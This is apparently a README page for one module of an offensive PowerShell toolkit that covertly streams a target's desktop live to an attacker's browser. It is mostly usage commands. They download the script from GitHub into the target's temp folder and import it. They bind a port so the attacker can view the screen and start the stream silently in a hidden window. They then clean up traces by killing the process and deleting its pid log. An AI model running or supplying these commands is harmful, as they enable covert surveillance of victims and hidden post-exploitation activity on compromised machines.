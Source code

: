 ## Stream-TargetDesktop.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|[Stream-TargetDesktop](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1)|Stream target desktop live|User Land|Dependencies: firefox browser with MJPEG inatalled (attacker PC)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Stream-TargetDesktop/Stream-TargetDesktop.ps1" -OutFile "$Env:TMP\Stream-TargetDesktop.ps1"
```

<br />

**prerequesites:**
```powershell
#Make sure Firefox ( with MJPEG ) its installed on attacker machine
[bool](Get-ItemProperty -Path "HKLM:\SOFTWARE\Mozilla\Mozilla Firefox" -EA SilentlyContinue)
```

<br />

**execute:**
```powershell
[demo] #Manual execution
Import-Module -Name "$Env:TMP\Stream-TargetDesktop.ps1" -Force;TargetScreen -Bind -Port 8081

[demo] #Access live stream (attacker pc)
Start firefox on: "http://${RemoteHost}:8081" #Rhost = target ip addr


#Automatic execution (silent)
Start-Process -WindowStyle hidden powershell -ArgumentList "Import-Module -Name `"$Env:TMP\Stream-TargetDesktop.ps1`" -Force;TargetScreen -Bind -Port 8081";exit

#Access live stream (attacker pc)
Start firefox on: "http://${RemoteHost}:8081" #Rhost = target ip addr


#Stop stream (remote)
$StreamPid = Get-Content -Path "$Env:TMP\mypid.log" -EA SilentlyContinue|?{ $_ -ne '' }
Stop-Process -id $StreamPid -EA SilentlyContinue -Force

#CleanUp (remote)
Remove-Item -Path "$Env:TMP\mypid.log" -Force
```
